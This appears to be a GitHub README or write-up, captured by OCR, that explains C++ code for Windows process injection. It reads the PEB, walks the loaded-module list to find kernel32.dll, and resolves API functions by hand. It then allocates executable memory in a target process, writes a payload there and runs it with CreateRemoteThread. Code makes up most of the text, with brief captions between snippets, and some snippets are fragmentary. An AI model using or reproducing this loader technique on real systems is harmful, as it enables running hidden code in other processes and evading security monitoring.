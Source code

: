 ```cpp
  __asm {
        mov eax, fs: [0x30]
        mov peb, eax
    }


```
Iterates through the list of loaded modules in the process to find kernel32.dll and obtain its base address.
```cpp
 lEntry = peb->Ldr->InLoadOrderModuleList.Flink;
    do {
        module = CONTAINING_RECORD(lEntry, LDR_DATA_TABLE_ENTRY, InLoadOrderLinks);

        char baseDllName[256];
        int i;
        for (i = 0; i < module->BaseDllName.Length / sizeof(WCHAR) && i < sizeof(baseDllName) - 1; i++) {
            baseDllName[i] = (char)module->BaseDllName.Buffer[i];
        }
        baseDllName[i] = '\0';

        if (_stricmp(baseDllName, "kernel32.dll") == 0) {
            k32baseAddr = (HMODULE)module->DllBase;
        }

        lEntry = lEntry->Flink;
    } while (lEntry != &peb->Ldr->InLoadOrderModuleList);
```
Resolves and uses functions from kernel32.dll to perform further operations like memory allocation and writing.

```cpp
/ ptrGetProcAddress = (GETPROCADDRESS)GetProcAddressKernel32(k32baseAddr, "GetProcAddress");
                ptrLoadLibraryA = (LOADLIBRARYA)GetProcAddressKernel32(k32baseAddr, "LoadLibraryA");
                HMODULE kernel32Base = ptrLoadLibraryA("kernel32.dll");
```
Allocates memory in the target process, writes the payload, and creates a thread to execute it.
```cpp
pVAEx = (VAExType)ptrGetProcAddress(kernel32Base, "VirtualAllocEx");
                pRemoteCode = pVAEx(hProcess, NULL, p_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
                pWPM = (WPMType)ptrGetProcAddress(kernel32Base, "WriteProcessMemory");
                pWPM(hProcess, pRemoteCode, (PVOID)code, (SIZE_T)p_len, (SIZE_T*)NULL);
                pCRT = (CRTType)ptrGetProcAddress(kernel32Base, "CreateRemoteThread");
                hThread = pCRT(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteCode, NULL, 0, NULL);

                if (hThread != NULL) {
                    WaitForSingleObject(hThread, 500);
                    CloseHandle(hThread);
                    return 0;
                }
```
